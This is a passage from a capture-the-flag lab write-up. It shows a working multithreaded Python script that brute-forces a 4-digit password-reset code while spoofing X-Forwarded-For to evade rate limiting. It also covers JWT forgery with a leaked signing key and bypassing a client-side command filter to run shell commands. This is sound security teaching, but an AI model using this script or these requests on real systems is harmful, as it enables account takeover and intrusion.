
*Figure 16 — Burp Intruder Sniper attack configured against `recovery_code`, with all 10,000 zero-padded 4-digit values loaded as the payload set.*

**Result:** the attack ran, but Burp Community Edition is single-threaded and sends requests sequentially — by the time it reached a meaningful fraction of the keyspace, every response was still a uniform 302/same length, confirming the attack could not realistically finish inside the ~124-second validity window before the code (or session) expired.


*Figure 17 — Intruder attack in progress; uniform 302/same-length responses across hundreds of attempts, too slow to beat the countdown.*

> **Lesson carried forward:** Burp Community's single-threaded Intruder is not fast enough for a short-lived, rate-limited numeric OTP. A faster, parallel tool was required — see Section 7.

---

### 7. Credential Attack — Multithreaded OTP Brute Force (`bruteforce.py`)

**Category:** Authentication — Brute Force (Python / Concurrent Requests) + Rate-Limit Bypass

Two problems had to be solved at once to beat the recovery code's short validity window:

1. **Speed.** Burp Community's single-threaded Intruder couldn't get through 10,000 requests in time (Section 6).
2. **Rate limiting.** A quick manual test — resending one code guess with a spoofed `X-Forwarded-For` header — confirmed the server's rate limiter keyed off that header rather than the true connection source, and that spoofing it let a request through normally (`Invalid or expired recovery code!`) instead of being blocked.

Both fixes were combined into a single multithreaded script, `bruteforce.py`, written with Python's `requests` library and `concurrent.futures.ThreadPoolExecutor`:

```python
import requests, random, sys
from concurrent.futures import ThreadPoolExecutor, as_completed

TARGET = "http://10.49.189.101:1337/reset_password.php"
SESSION_COOKIE = "<fresh PHPSESSID, grabbed immediately before running>"
HEADERS_BASE = {
    "Content-Type": "application/x-www-form-urlencoded",
    "Cookie": f"PHPSESSID={SESSION_COOKIE}"
}
stop_flag = False

def random_ip():
    return f"{random.randint(1,254)}.{random.randint(1,254)}.{random.randint(1,254)}.{random.randint(1,254)}"

def try_code(code):
    global stop_flag
    if stop_flag:
        return None
    headers = dict(HEADERS_BASE)
    headers["X-Forwarded-For"] = random_ip()
    data = {"recovery_code": code, "s": "5"}
    try:
        r = requests.post(TARGET, data=data, headers=headers, timeout=5)
    except requests.RequestException:
        return None
    if "Time elapsed" in r.text:
        stop_flag = True
        print(f"[!] Session expired at code {code}.")
        return None
    if "Rate limit exceeded" in r.text or "Invalid or expired" in r.text:
        return None
    return (code, r)

def main():
    codes = [f"{i:04d}" for i in range(10000)]
    with ThreadPoolExecutor(max_workers=40) as executor:
        futures = {executor.submit(try_code, c): c for c in codes}
        for future in as_completed(futures):
            if stop_flag:
                break
            result = future.result()
            if result:
                code, r = result
                print(f"[+] POSSIBLE HIT with code {code}!")
                print(f"Status: {r.status_code} | Length: {len(r.text)}")
                print(r.text[:2000])
                executor.shutdown(wait=False, cancel_futures=True)
                sys.exit(0)

if __name__ == "__main__":
    main()
```

**Why each part matters:**
- `ThreadPoolExecutor(max_workers=40)` — runs 40 requests concurrently instead of Burp Community's single-threaded sequential attempts, finishing the full keyspace well inside the ~124s validity window.
- `random_ip()` + `X-Forwarded-For` header — defeats the rate limiter identified above by making every request appear to originate from a different source IP.
- Checking for `"Time elapsed"` and halting immediately — stops the script the moment the session/code window has actually expired, instead of burning the remaining thread budget on a dead session.
- Checking for `"Invalid or expired"` / `"Rate limit exceeded"` as explicit **failure** conditions — any other response is treated as a hit, since the application only returns a handful of distinct message types.

The script was written to disk and executed directly from the terminal:

```bash
nano bruteforce.py
python3 bruteforce.py
```

**Result:** the correct recovery code, **`{Redacted}`**, was found well inside the validity window, returning the "Reset Your Password" form (`Status: 200 | Length: 2189`) instead of an error message.


*Figure 18 — `nano bruteforce.py` to create the script, then `python3 bruteforce.py` to run it; the script finds the valid recovery code and prints the full "Reset Your Password" page returned by the server.*


*Figure 19 — The same successful run, alongside the browser (same session the script validated against) landing on the matching "Reset Your Password" page.*

The new password was then submitted through the browser (same session the script validated against), and login was attempted with the leaked email and the newly set password.

---

### 8. Dashboard Access — First Flag

**Category:** Authentication Bypass — Outcome

Logging in with `tester@hammer.thm` and the newly-set password granted access to the dashboard, displaying the welcome message, the user's role, a command-execution box, and — critically for later steps — a `token` cookie holding a JWT.


*Figure 20 — Successful dashboard login. The welcome banner contains the first flag, the role is shown as "user", and a `token` cookie (JWT) and `persistentSession` cookie are both present.*

**First flag:** `{Redacted}`

---

### 9. Command Execution Feature — Client-Side Filter Discovery

**Category:** Web Application Analysis — Access Control Logic Location

The dashboard exposed an "Enter command" input and Submit button. Initial attempts to run common enumeration commands (`whoami`, `ls -la`, `id`, `cat ...`) were all rejected with a generic message:

```
Command not allowed
```


*Figure 21 — The dashboard rejecting `whoami` with "Command not allowed", while the Storage/Cookies panel shows the JWT `token` cookie.*

A bare `ls` (no arguments) was tried and succeeded, returning a real directory listing of the web root — immediately interesting, since this proved commands *could* execute, and the "filter" was inconsistent (blocking `ls -la` but allowing `ls`).

Viewing the dashboard's page source (via "View Page Source", not DevTools' rendered view) revealed the entire mechanism:

```javascript
$('#submitCommand').click(function() {
    var command = $('#command').val();
    var jwtToken = 'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6Ii92YXIvd3d3L215a2V5LmtleSJ9...';
    $.ajax({
        url: 'execute_command.php',
        method: 'POST',
        data: JSON.stringify({ command: command }),
        contentType: 'application/json',
        headers: { 'Authorization': 'Bearer ' + jwtToken },
        success: function(response) {
            $('#commandOutput').text(response.output || response.error);
        }
    });
});
```

**Critical findings from this source view:**
1. The request is a plain AJAX `POST` to `execute_command.php`, carrying the command as raw JSON — no obfuscation.
2. The `Authorization: Bearer` JWT is **hardcoded directly in the page's rendered HTML/JS** (server-side templated per session).
3. Decoding the JWT header showed: `{"typ":"JWT","alg":"HS256","kid":"/var/www/mykey.key"}` — the `kid` (Key ID) claim pointed to a file path on the server, a classic JWT weak point (if that file's contents can be read, the signing secret is exposed).
4. The "Command not allowed" filtering logic was **not visible in this snippet at all** — strongly suggesting the actual blocking happens via a separate client-side validation step before the AJAX call fires.


*Figure 22 — `ls` returns a full directory listing (including `execute_command.php`, `188ade1.key`, `hmr_logs`, `vendor`), and the page source reveals the hardcoded JWT and its `kid` header claim.*

---

### 10. JWT Analysis — `kid` Header Injection / Key Disclosure

**Category:** JSON Web Token (JWT) Security — Key Confusion / Local File Key Disclosure

The JWT's header was decoded using [jwt.io](https://jwt.io):

```json
{
  "typ": "JWT",
  "alg": "HS256",
  "kid": "/var/www/mykey.key"
}
```


*Figure 23 — jwt.io Decoder showing the JWT header, with the `kid` claim pointing to a server-side file path used as the HMAC signing key source.*

Since the earlier `ls` output (Figure 22) listed a file named `188ade1.key` in the web root — not `mykey.key` as the JWT header first suggested — that file was downloaded and read directly:

```bash
cd ~
cat Downloads/188ade1.key
```

**Result:** the file contained a single value — the raw HMAC signing secret used by the application to sign and verify every JWT.


*Figure 24 — Terminal `cat` of the downloaded key file, revealing the HMAC signing secret: `{Redacted}`.*

> **Why this is a real vulnerability:** the `kid` header is meant to let a server select *which* key to verify a token against (useful for key rotation across multiple valid keys). Here, it instead pointed directly at a **predictable, web-root-adjacent file** containing the literal signing secret in plaintext. Combined with the exposed `vendor/` tree and directory listing being enabled throughout the application, this key was trivially recoverable once basic command execution (`ls`) was available.

---

### 11. JWT Forgery Attempt — Privilege Escalation via Forged `role: admin` Claim

**Category:** JSON Web Token (JWT) Security — Token Forgery (Weak/Disclosed Secret)

With the signing secret recovered, a forged administrator token was built on [jwt.io](https://jwt.io)'s Encoder, mirroring the structure of the real token but elevating the `role` claim:

**Header:**
```json
{
  "typ": "JWT",
  "alg": "HS256",
  "kid": "/var/www/mykey.key"
}
```

**Payload:**
```json
{
  "iss": "http://hammer.thm",
  "aud": "http://hammer.thm",
  "iat": 1792485519,
  "exp": 1792489119,
  "data": {
    "user_id": 1,
    "email": "tester@hammer.thm",
    "role": "admin"
  }
}
```

**Secret:** `{Redacted}` (Base64URL-encoded toggle **off**, since the key was a raw string, not Base64 data)

The resulting forged token was sent to `execute_command.php` in place of the real token, via the browser DevTools Network "New Request" tool:

```
POST /execute_command.php HTTP/1.1
Host: 10.49.189.101:1337
Content-Type: application/json
Authorization: Bearer <forged token>
Cookie: PHPSESSID=<session>

{"command": "cat"}
```

**Result:** `HTTP/1.1 401 Unauthorized`. The same screenshot also shows the dashboard still rejecting a plain `cat` command with "Command not allowed" through the normal UI.


*Figure 25 — The forged token using the original (incorrect) `kid` path of `/var/www/mykey.key` is rejected with 401 Unauthorized; the dashboard UI separately still blocks a bare "cat" command.*

Re-checking the file-listing output from Section 9 confirmed the **actual** key path was `/var/www/html/188ade1.key`, not `/var/www/mykey.key` — the original JWT header was misleading/stale relative to the file's real location on disk.


*Figure 26 — jwt.io Debugger showing the first forge attempt, still referencing the incorrect `kid` path.*

> **Outcome:** JWT forgery was a valid and theoretically sound escalation path (correct secret, correct structure, just the wrong `kid` path on the first try), but it turned out to be **unnecessary** — see Section 12, where direct backend access without any JWT modification achieved full command execution regardless of role. The JWT analysis is retained here as it demonstrates a second, independently viable vulnerability chain in the application.

---

### 12. Remote Code Execution — Client-Side Filter Bypass

**Category:** Remote Code Execution — Broken Access Control (Client-Side Security Enforcement)

Since the "Command not allowed" check could not be located in the AJAX handler itself (Section 9), the working hypothesis was that filtering happened **before** the AJAX call ever fired — i.e., purely in the browser, inspectable and bypassable by constructing the HTTP request manually and sending it directly to the server, skipping the page's JavaScript entirely.

Using the browser DevTools Network panel's "New Request" feature, the exact AJAX request was rebuilt by hand with the **original, valid, non-forged JWT** (role: user) and sent directly:

```
POST /execute_command.php HTTP/1.1
Host: 10.49.189.101:1337
Content-Type: application/json
Authorization: Bearer <original valid JWT>
Cookie: PHPSESSID=<session>; persistentSession=yes

{"command": "ls -la"}
```

**Result:** `HTTP/1.1 200 OK`, with a full `ls -la` directory listing returned in the JSON response — a command that had been rejected as "not allowed" when submitted through the dashboard's input field moments earlier.


*Figure 27 — `ls -la` sent directly to `execute_command.php`, bypassing the dashboard's JavaScript filter entirely, returns a full directory listing (200 OK).*

This confirmed the filter was **entirely client-side** and provided **zero actual security** — the backend executed any command sent to it, regardless of role or prior "Command not allowed" rejections in the UI. The corrected `kid` path from Section 11 was confirmed against this same directory listing:


*Figure 28 — jwt.io Debugger with the corrected `kid` header (`/var/www/html/188ade1.key`), confirmed against the real file location.*

With the filter bypass confirmed, the flag was read directly:

```json
{"command": "cat /home/ubuntu/flag.txt"}
```

**Result:** `HTTP/1.1 200 OK`

```json
{"output": "{Redacted}"}
```


*Figure 29 — Direct request for `cat /home/ubuntu/flag.txt`, bypassing the client-side filter, returning the contents of the target flag file.*

**Second flag (`/home/ubuntu/flag.txt`):** `{Redacted}`

---

## Other Details

### Troubleshooting Notes

- The generic `gobuster` wordlist alone would never have surfaced `hmr_logs/` — it only appeared after re-running `gobuster` with a `-p` pattern built directly from the `hmr_DIRECTORY_NAME` developer comment found in the login page's HTML source.
- Several paths referenced inside `hmr_logs/error.logs` (`/admin-login`, `/restricted-area`, `/locked-down`, `/var/www/html/protected`) were **decoys** — all returned 404 and were not part of the working attack chain. Only the leaked email address (`tester@hammer.thm`) from that log file was actionable.
- Burp Suite **Community Edition's** single-threaded Intruder was too slow to brute-force the 10,000-value OTP keyspace inside the ~124-second validity window; it also had no built-in way to rotate a spoofed source-IP header per request to dodge the rate limiter.
- A manual, single curl request confirmed the rate limiter keyed off the `X-Forwarded-For` header rather than the real TCP source address — spoofing it on every request in `bruteforce.py` is what made the full-keyspace brute force viable.
- The JWT `kid` header's claimed key path (`/var/www/mykey.key`) did **not** match the actual file's real location on disk (`/var/www/html/188ade1.key`), discovered only via directory listing (`ls`) once command execution was available — the first forged-token attempt using the stale path returned `401 Unauthorized`.
- Ultimately, JWT forgery (role escalation to `admin`) was **not required** to achieve RCE — the application's command filter was enforced entirely in client-side JavaScript and provided no real protection once requests were sent directly to the backend endpoint, regardless of the JWT's `role` claim.

### Attack Chain Overview

1. Full-port scan (`rustscan`) discovers the web application on a non-standard port (1337).
2. Login page HTML source leaks an internal directory-naming convention via a developer comment.
3. A custom `gobuster` pattern built from that convention, combined with a standard scan, discovers `hmr_logs/`, `vendor/`, `composer.json`, and `dashboard.php`.
4. `hmr_logs/error.logs` leaks a valid test account email address (`tester@hammer.thm`); `composer.json`/`vendor/` confirm the application uses `firebase/php-jwt`.
5. The password-reset flow is analyzed, revealing a predictable 4-digit OTP with a short validity window and per-request rate limiting.
